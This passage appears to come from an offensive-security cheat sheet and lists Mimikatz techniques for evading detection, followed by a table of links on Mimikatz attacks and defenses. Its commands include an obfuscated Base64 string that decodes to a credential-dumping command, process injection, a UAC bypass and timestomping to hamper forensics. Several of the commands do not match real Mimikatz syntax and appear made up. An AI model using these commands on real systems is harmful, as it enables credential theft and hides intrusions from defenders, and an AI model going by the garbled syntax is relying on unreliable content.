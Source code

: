 #### Defense Evasion Techniques

Mimikatz includes several options for evading detection by security tools.

1. **Stealth Mode Execution**: Redirects output to `nul`, making it harder for monitoring tools to detect Mimikatz activity.
    ```bash
    mimikatz.exe /output:nul
    ```
2. **Obfuscating Commands**: Obfuscates Mimikatz commands by encoding them in Base64 before execution.
    ```bash
    echo "c2VrdXJsc2E6OmxvZ29ucGFzc3dvcmRz" | base64 -d | mimikatz
    ```
3. **Injecting Mimikatz into Legitimate Processes**: Injects Mimikatz into a legitimate process to evade detection.
    ```bash
    mimikatz.exe "privilege::debug" "process::inject /pid:<pid> /path:<mimikatz_path>" "exit"
    ```
4. **Bypassing UAC**: Bypasses User Account Control (UAC) to gain elevated privileges without triggering alerts.
    ```bash
    misc::elevate
    ```
5. **Timestomping**: Modifies file timestamps to make forensic analysis more difficult.
    ```bash
    misc::timestamps /set:<new_timestamp> /file:<file_path>
    ```

# Resources

|**Name**|**URL**|
|---|---|
|Mimikatz GitHub Repository|https://github.com/gentilkiwi/mimikatz|
|Mimikatz Command Reference|https://adsecurity.org/?page_id=1821|
|Mimikatz Cheat Sheet|https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Post-Exploitation/Mimikatz.md|
|Mimikatz DC Sync Attack|https://blog.rapid7.com/2018/03/14/attacking-ntlm-with-mimikatz-dcsync/|
|Kerberos Golden Ticket Attack|https://www.harmj0y.net/blog/redteaming/kerberos-the-abuse-continues/|
|Defending Against Mimikatz|https://www.sentinelone.com/blog/defending-against-mimikatz-attacks/|
|Advanced Mimikatz Techniques|https://www.offensive-security.com/metasploit-unleashed/mimikatz/|
|Using Mimikatz in CTF Challenges|https://ctftime.org/writeups/overview/mimikatz|
|Automating Mimikatz with PowerShell|https://www.harmj0y.net/blog/powershell/automating-mimikatz-with-powershell/|
|Bypassing AV with Mimikatz|https://pentestlab.blog/2020/03/23/mimikatz-bypass-av/|